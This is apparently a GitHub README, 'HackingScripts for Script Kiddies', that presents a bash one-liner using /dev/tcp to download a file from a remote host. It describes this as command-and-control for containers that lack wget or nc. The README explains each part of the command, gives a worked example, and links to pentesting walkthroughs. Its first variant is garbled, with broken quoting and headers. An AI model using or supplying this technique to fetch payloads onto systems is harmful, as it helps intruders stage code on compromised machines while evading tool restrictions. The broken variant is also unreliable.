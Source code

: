 # HackingScripts for Script Kiddies
# One liner bash for C2 without using any native program like wget, nc etc, esp containers. 
```bash
bash-c "exec 3<>/dev/tcp/IP/80; echo -e GET/ youfile.sh HTTP/1.1\r\nHost; ip\r\nConnection: close\r\n\r\n' >&3; cat <&3-> yourfile.sh'
```
or If Not Use 
```bash
bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh"
```

## Explanation How it Work

1. **`exec 3<>/dev/tcp/IP/80`**  
   Opens a TCP connection to the specified `IP` on port `80` and assigns it to file descriptor `3`.

2. **`echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3`**  
   Sends an HTTP GET request to the server.  
   - `GET /yourfile.sh HTTP/1.1`: Requests the file `yourfile.sh` using HTTP/1.1.  
   - `Host: IP`: Specifies the host (replace `IP` with the server's IP or hostname).  
   - `Connection: close`: Ensures the connection is closed after the request.  
   - `\r\n`: Represents a carriage return and newline for proper HTTP formatting.

3. **`cat <&3 > yourfile.sh`**  
   Reads the server's response from file descriptor `3` and saves it to `yourfile.sh`.


## Example

If the server IP is `192.168.1.100` and the file is `script.sh`, the command would look like this:

```bash
bash -c "exec 3<>/dev/tcp/192.168.1.100/80; echo -e 'GET /script.sh HTTP/1.1\r\nHost: 192.168.1.100\r\nConnection: close\r\n\r\n' >&3; cat <&3 > script.sh"
```



## Notes

- Replace `IP` with the actual IP address or hostname of the server.
- Replace `/yourfile.sh` with the path to the file you want to download.
- Ensure the server is running on port `80` and allows HTTP requests.
- This method only works for plain HTTP. For HTTPS, use tools like `curl` or `wget`.
Don’t forget the reactions and stars⭐️! 
They fuel my energy to post such contents🔋✨.


# Learn More
https://happycamper84.medium.com/powershell-for-pentesters-tryhackme-walkthrough-e629641ae1e5
https://github.com/dievus/PowerShellForPentesters
